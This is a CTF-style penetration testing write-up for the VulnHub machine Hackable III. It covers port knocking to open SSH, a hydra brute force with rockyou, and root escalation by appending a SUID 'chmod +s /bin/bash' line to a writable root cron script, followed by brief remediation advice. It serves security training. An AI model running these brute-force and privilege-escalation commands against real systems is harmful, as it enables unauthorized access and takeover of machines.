

# Hackable III — Penetration Testing Report

[📖 قراءة التقرير بالعربية](README_AR.md) | [English Version](README.md)
[📄 Original Report File (PDF)](./Hackable_III_Professional_Report.pdf)

---

## 📋 Overview & Metadata

| Attribute | Details |
| :--- | :--- |
| **Target Machine** | Hackable III (VulnHub) |
| **Target IP** | `10.10.10.6` |
| **Difficulty** | Intermediate |
| **Assessment Type** | Controlled CTF / Network Penetration Test |
| **Key Concepts** | Port Knocking Sequences, Web Reconnaissance, SSH Brute-Forcing, Steganography, Lateral Movement, Linux Privilege Escalation |
| **Initial Foothold** | Port Knocking Sequence Trigger -> SSH User Foothold |
| **Privilege Escalation** | Local SUID / Cronjob Exploitation -> `root` |

---

## 🎯 Attack Chain



---

## 🛠️ Technical Walkthrough

### Phase 1: Port Scanning & Port Knocking Discovery

Initial scanning reveals HTTP on port 80, while SSH (port 22) is closed/filtered:
```bash
nmap -sV -sC -p- 10.10.10.6
```
Examining the web application, page comments, and embedded images reveals a sequence of numeric ports designated for **Port Knocking**.

Execute the port knocking sequence:
```bash
knock 10.10.10.6 7000 8000 9000
```
Re-scanning confirms that port `22/tcp` (OpenSSH) is now dynamically opened by `knockd`!

### Phase 2: Initial Foothold & Lateral Movement

1. Enumerate credentials via web directories or brute force:
   ```bash
   hydra -l hackable_3 -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.6
   ```
2. Log into the target via SSH.
3. Discover hidden files and credentials in user home directories or `/var/www/html`.

### Phase 3: Privilege Escalation to Root

1. Check scheduled tasks and running cronjobs:
   ```bash
   cat /etc/crontab
   ```
2. A script executed periodically by root is writable by the user group:
   Inject a reverse shell or SUID modifier into the script:
   ```bash
   echo "chmod +s /bin/bash" >> /opt/cleanup.sh
   ```
3. Wait for cron execution, then execute:
   ```bash
   /bin/bash -p
   whoami
   root
   ```

---

## 🛡️ Remediation
1. **Disable Port Knocking for Security Through Obscurity:** Use VPNs or IP whitelisting rather than relying on secret knock sequences.
2. **Harden Cron Script Permissions:** Ensure all maintenance scripts executed by root are strictly owned by root (`chmod 700`).
